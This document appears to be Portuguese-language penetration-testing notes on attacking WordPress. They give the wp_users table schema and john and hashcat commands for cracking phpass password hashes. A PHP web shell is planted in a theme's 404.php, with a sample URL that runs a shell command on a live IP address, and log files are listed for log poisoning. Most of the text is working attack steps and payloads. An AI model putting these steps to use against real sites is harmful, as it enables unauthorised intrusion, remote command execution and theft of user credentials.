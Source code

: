 ```
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_termmeta           |
| wp_terms              |
| wp_usermeta           |
| wp_users              |

```

tabela wp_users
```
describe wp_users;
+---------------------+-----------------+------+-----+---------------------+
| Field               | Type            | Null | Key | Default             |
+---------------------+-----------------+------+-----+---------------------+
| ID                  | bigint unsigned | NO   | PRI | NULL                |
| user_login          | varchar(60)     | NO   | MUL |                     |
| user_pass           | varchar(255)    | NO   |     |                     | 
| user_nicename       | varchar(50)     | NO   | MUL |                     | 
| user_url            | varchar(100)    | NO   |     |                     |
| user_registered     | datetime        | NO   |     | 0000-00-00 00:00:00 |
| user_activation_key | varchar(255)    | NO   |     |                     |
| user_status         | int             | NO   |     | 0                   |
| display_name        | varchar(250)    | NO   |     |                     | 
+---------------------+-----------------+------+-----+---------------------+

```


### wp_hash
cracking hash user_pass
```
john --format=phpass HASH.txt --wordlist=WORDLIST.TXT

hashcat -m 400 HASH.txt wordlist.txt
```

arquivo editavel `wordpress classic` `/themes -> 404.php`
```
<?php 
echo system($_REQUEST['desec']); 
?> 

<?php 
echo system($_GET['desec']); 
?>
```
path para themes, `wp-content/themes/classic/404.php`
```
http://37.59.174.231/blog/wp-content/themes/classic/404.php?desec=ls%20-la%20/
```
## log poisoning (ssh/apache/mail)
arquivos de log
```
# ssh
var/log/auth.log

# apache2
/var/log/apache2/error.log
/var/log/apache2/access.log
```
